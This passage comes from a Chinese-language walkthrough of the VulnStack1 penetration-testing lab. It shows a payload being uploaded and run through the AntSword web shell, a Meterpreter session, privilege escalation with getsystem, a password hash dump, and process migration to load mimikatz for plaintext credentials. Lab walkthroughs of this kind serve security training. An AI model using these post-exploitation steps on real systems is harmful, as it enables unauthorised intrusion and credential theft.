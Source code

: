 利用蚁剑把 run2.exe 传上去 web 服务器
![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_11.png)

然后通过虚拟终端执行 run2.exe 

使用```sessions -i```可以看到成功建立了会话

![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_12.png)

### 进行提权

进入第 1 个会话
```shell
sessions -i 1
```

使用命令 ```getsystem```，拿到 system 权限

![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_13.png)

### 获取账号和 hash 密码

导入账号，密码hash值
```shell
run hashdump
```

![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_14.png)

Windows系统下的hash密码格式为：
用户名称:RID:LM-HASH值:NT-HASH值

### 获取明文密码

（1）尝试加载 mimikatz 模块，加载模块前需要先将 meterpreter 迁移到 64 位的进程（也就是把当前的进程转移到一个 64 位进程上面），该进程也需要是 system 权限，操作如下：
```shell
ps
migrate PID
```

使用 ```ps``` 可以查看活跃进程

```
PID   PPID  Name               Arch  Session  User                          Path
---   ----  ----               ----  -------  ----                          ----
0     0     [System Process]
4     0     System             x64   0
252   4     smss.exe           x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
296   488   svchost.exe        x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\svchost.exe
304   3992  cmd.exe            x86   1        GOD\Administrator             C:\Windows\SysWOW64\cmd.exe
316   1184  run2.exe           x86   1        GOD\Administrator             C:\phpStudy\WWW\run2.exe
************************************************************************************************************
************************************************************************************************************
944   488   svchost.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\svchost.exe
956   3720  run2.exe           x86   1        GOD\Administrator             C:\phpStudy\WWW\run2.exe
964   2776  cmd.exe            x64   1        GOD\Administrator             C:\Windows\system32\cmd.exe
```